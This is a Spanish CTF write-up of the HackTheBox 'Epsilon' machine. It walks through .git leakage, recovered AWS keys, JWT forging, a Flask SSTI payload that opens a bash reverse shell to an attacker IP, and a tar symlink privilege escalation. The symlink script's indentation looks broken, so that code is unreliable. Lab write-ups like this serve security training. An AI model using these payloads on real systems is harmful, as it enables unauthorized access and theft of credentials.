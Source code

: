 ```yaml
---
layout: post
toc: true
title: "Epsilon - HackTheBox Writeup"
categories: HackTheBox
tags: [CTF, Web]
author:
  - H4RRIZN
---
```


![logo](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/5bde9ea27c8aaef510c8b6e1ce6b22207714d839/_includes/CTFIMG/Epsilon/logo.png)

## Reconocimiento
Para comenzar realizaremos un scan con nmap para visualizar los puertos abiertos en el host victima:
```bash
nmap -sS --min-rate 1500 -p- --open -vv -n -Pn 10.10.11.134
```
![recon1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/202d617891b7a83d56011b58a1cfbd494f019547/_includes/CTFIMG/Epsilon/recon1.png)   
Vemos abiertos los puertos 22, 80 y 5000. Realizaremos otro scan para obtener más detalles de los servicios y versiones utilizados en estos puertos:    
![recon2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/202d617891b7a83d56011b58a1cfbd494f019547/_includes/CTFIMG/Epsilon/recon2.png)    
  Podemos observar que el puerto 80 revela el directorio **`.git`**.  Al ingresar al puerto 5000 http observamos que tenemos un panel de autenticación:    
![recon3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/202d617891b7a83d56011b58a1cfbd494f019547/_includes/CTFIMG/Epsilon/recon3.png)    
De momento no podemos hacer mucho en este panel.

## Analizando .git
Como el resultado del script de nmap nos revelo el directorio .git en **`10.10.11.134/.git`** podemos utilizar la herramienta Githack para recomponer este repositorio:    
```bash
pip install githack
```
![git0](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git0.png)   
![git1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git1.png)    
Como observamos contamos con 2 ficheros los cuales corresponden a **`server.py`** y **`track_api_CR_148.py`**. Analizaremos los ficheros individualmente.
### server.py
Para **`server.py`** podemos notar que en las primeras líneas de código se evidencia el uso de **`Json Web Token`** además de que la aplicación estaría construida con **`Flask`**. Notamos que se verifica un JWT el cual hace uso del algoritmo **`HS256`** para su construcción y recibe el **`username`**:    
![git2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git2.png)    
Al inspeccionar más el código notamos diversas rutas como **`/track`** y **`/order`**.    
![git3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git3.png)    
Las cuales si ingresamos en el puerto 80 no obtendremos resultados. Pero si tenemos resultados para el puerto 5000 lo que indica que el código fuente encontrado corresponde para este puerto en especifico:      
![git4](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git4.png)
### track_api_CR_148.py
Para el fichero **`track_api_CR_148.py`** analizamos que también existen variables en forma de secreto. No tenemos estas claves pero si podemos ver que se revela el endpoint de AWS el cual es **`http://cloud.epsilon.htb`**. Agregamos este al fichero /etc/hosts de nuestra maquina.     
![git5](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git5.png)
Además vemos que se definen funciones las cuales ***Zipean*** una ruta de alguna forma. Adicionalmente tenemos el siguiente fragmento **`update_lambda`** el cual simplemente es una función que verifica la existencia de un directorio de Lambda y luego actualiza el código de la función utilizando la API de AWS Lambda.     
![git6](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git6.png)     
Ya con esto en mente procedemos a enumerar los commits del proyecto utilizando git para observar distintas versiones de estos códigos.
### Git Log
Utilizando el comando **`git log`** podemos ver los commits realizados. Observamos el primer commit (el de más abajo) el comentario de “Adding Tracking API Module” lo cual llama la atención ya que fue la primera implementación del código **`track_api_CR_148.py`**:    
![git7](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git7.png)
Podemos visualizar este utilizando el comando **`git show <commit>`**:    
![git8](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git8.png)    
Vemos como se revelan los secretos para conectarse a aws:

aws_access_key_id='**`AQLA5M37BDN6FJP76TDC`**'
aws_secret_access_key='OsK0o/**`glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A`**'

Utilizaremos estos para explorar las funciones.
### AWS
Lo primero es configurar AWS con los secretos utilizando **`aws configure`**:
![git9](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git9.png)    
Ya con esto podemos explorar las funciones, tengamos en cuenta que se nos mostrarón funciones **`lambda`** por lo que utilizaremos estás en aws:    
```bash
aws --endpoint=http://cloud.epsilon.htb lambda list-functions
```
![git10](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git10.png)     
Observamos que tenemos la función **`costume_shop_v1`** disponible. Podemos utilizar el siguiente comando para obtener la función:     
```bash
aws --endpoint=http://cloud.epsilon.htb lambda get-function --function-name=costume_shop_v1
```
![git11](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git11.png)    
Y obtenemos la localización de la función la cual es un comprimido **`ZIP`**. Descargamos la función utilizando wget y la renombramos para convertirlo en un comprimido **`.zip`** y la descomprimimos para obtener el código:    
![git12](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git12.png)    
Y observamos que esta contiene un secreto hardcodeado el cúal podriamos utilizar para crear un token JWT.

## Creando JWT
Desde este punto ya que contamos con un **`secret`** podemos intentar crear un token JWT para su uso. Para esto utilizamos el siguiente script en python3:    
```python
import jwt
secret = "RrXCv`mrNe!K!4+5`wYq"
encoded_jwt = jwt.encode({"username": "admin"}, secret, algorithm="HS256")
print("[!] Token Generado: " + encoded_jwt)
```
![jwt0](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/193162ce1dc03e6c7535d1603e23af2bfb2c6b13/_includes/CTFIMG/Epsilon/jwt0.png)    
Copiamos el token generado y lo utilizamos ante el puerto 5000 con el nombre de **`auth`** como vimos en el código **`server.py`**:     
![jwt1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/193162ce1dc03e6c7535d1603e23af2bfb2c6b13/_includes/CTFIMG/Epsilon/jwt1.png)

## SSTI
Ahora que podemos explorar libremente observamos que en **`order`** podemos seleccionar un **`costume`** el cual si presionamos en **`order`** se despliega el mensaje de “Your order of "phantom" has been placed successfully.” En este caso al seleccionar el item de **`Phatnom Mask`**
![ssti0](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/be3f4b8e7e5a9ae2fd85341e8bcb9cc06ed58d54/_includes/CTFIMG/Epsilon/ssti0.png)    
Realizamos la misma petición pero esta vez con BurpSuite e identificamos que en el parámetro **`costume`** se pasa el valor de **`phantom`**:     
![ssti1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/be3f4b8e7e5a9ae2fd85341e8bcb9cc06ed58d54/_includes/CTFIMG/Epsilon/ssti1.png)    
Si cambiamos el valor de **`phantom`** por cualquier cosa como por ejemplo **`h4rri`** observamos que se muestra el valor de este:     
![ssti2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/be3f4b8e7e5a9ae2fd85341e8bcb9cc06ed58d54/_includes/CTFIMG/Epsilon/ssti2.png)    
Vemos que el valor se refleja correctamente. Sabemos por el script **`server.py`** que la aplicación está construida con **`Flask`**. Probamos un payload tipico para estos casos para probar la vulnerabilidad de Server-Side Template Injection el cual es **`{{7*7}}`** si el resultado de este es **`49`** entonces estamos ante la vulnerabilidad mencionada:     
![ssti3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/be3f4b8e7e5a9ae2fd85341e8bcb9cc06ed58d54/_includes/CTFIMG/Epsilon/ssti3.png)
Con la vulnerabilidad confirmada ya podemos buscar una forma de ejecutar comandos y obtener acceso a la maquina victima.
## Shell as Tom
Para ganar acceso a la maquina victima podemos utilizar el siguiente payload:    
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "/bin/bash -i >& /dev/tcp/10.10.14.10/443 0>&1"').read() }}
```
Desde ya nos ponemos en escucha con netcat:    
![sh1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/f70311343e42ac315b4093dee0def1ed4da18c02/_includes/CTFIMG/Epsilon/sh1.png)
A continuación enviamos el payload en BurpSuite:    
![sh2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/f70311343e42ac315b4093dee0def1ed4da18c02/_includes/CTFIMG/Epsilon/sh2.png)  
![sh3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/f70311343e42ac315b4093dee0def1ed4da18c02/_includes/CTFIMG/Epsilon/sh3.png)    
Desde este punto ya podemos leer la flag ubicada en el directorio del usuario tom.
## Privesc
Al ejecutar Linpeas no observamos nada de mucho valor para escalar privilegios. Por lo que nos disponemos a enumerar procesos que no podamos ver utilizando la herramienta pspy. La descargamos en la maquina victima, le asignamos permisos de ejecución y la ejecutamos:    
![priv0](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv0.png)   
Observamos que el usuario root arranca una tarea cron y posteriormente ejecuta el script **`backup.sh`** ubicado en **`/usr/bin`**:     
![priv1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv1.png)     
El script tiene el siguiente contenido:      
![priv2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv2.png)      
La línea `/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"` crea un nuevo archivo comprimido en el directorio `/var/backups/web_backups/`. 

El nombre del archivo es `${check_file}.tar`, donde `${check_file}` es el valor de la variable `check_file`. El contenido del archivo comprimido incluye el archivo `/opt/backups/checksum` y el archivo comprimido anteriormente creado `/opt/backups/$file.tar`.

Observamos además de que se está utilizando **`tar`** con el parámetro **`-h`** el cual según su descripción:    
![priv3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv3.png)    
En base a esto podemos probar el crear un fichero en el directorio **`/opt/backups`** con el nombre de **`checksum`** el cual apunte directamente a la flag del usuario root o a la clave ssh del usuario root para ganar acceso al sistema con este. Para esto haremos uso de un script en python3 ya que la maquina victima cuenta con este lenguaje:    
```python
import os
while True:
	if os.path.exists("/opt/backups/checksum"):
		os.remove("/opt/backups/checksum")
		print("[+] File deleted")
os.symlink("/root/.ssh/id_rsa", "/opt/backups/checksum", target_is_directory=True)
print("[+] Symlink created")
break
```
![priv4](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv4.png)    
Observamos que el script se ejecuto correctamente. Ahora copiamos el ultimo fichero `tar` creado al directorio tmp y lo descomprimimos:     
![pirv5](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv5.png)    
Posteriormente ingresamos a la carpeta resultando la cual es opt y luego a backups:     
![priv6](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv6.png)

![priv7](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv7.png)     
Como apreciamos contamos con el fichero checksum, el cual si revisamos podemos notar que es una clave rsa para utilizar con SSH:     
![priv8](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv8.png)    
La copiamos y la utilizamos para ingresar por SSH con el usuario root:   
![priv9](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv9.png)     
Observamos que tenemos acceso como usuario root, y ya podremos leer la flag:     
![priv10](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/1691d8739fe9c2bea4720350b8bf4c406c417fe0/_includes/CTFIMG/Epsilon/priv10.png)

Pwned! 🏴‍☠️
